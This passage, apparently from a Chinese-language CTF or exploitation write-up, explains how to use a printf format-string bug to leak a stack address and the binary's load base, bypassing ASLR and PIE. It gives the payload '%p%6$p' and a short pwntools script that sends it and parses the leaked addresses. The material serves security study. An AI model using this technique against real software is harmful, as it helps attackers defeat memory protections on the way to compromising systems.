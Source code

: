 我们通过泄露ebp存储的old ebp来获取栈地址，同时通过printf()前入栈的参数BUFF来泄露程序的加载基地址【绕过了ASLR和PIE机制】。

![clip_image013](\img\trifles\clip_image013.png)

故采用**%p%6$p**格式化字符串来泄露栈地址和程序加载地址。

对应的实现脚本如下：

```python
p.sendline('%p%6$p')
buff_oebp_addr = p.recvline()
buff = int(buff_oebp_addr[2:10], 16)
binary_base = buff - 0x202c 
log.info("BUFF address is %x" % buff)
ebp = int(buff_oebp_addr[12:20], 16) - 0x20
log.info("ebp address is %x" % ebp)
```
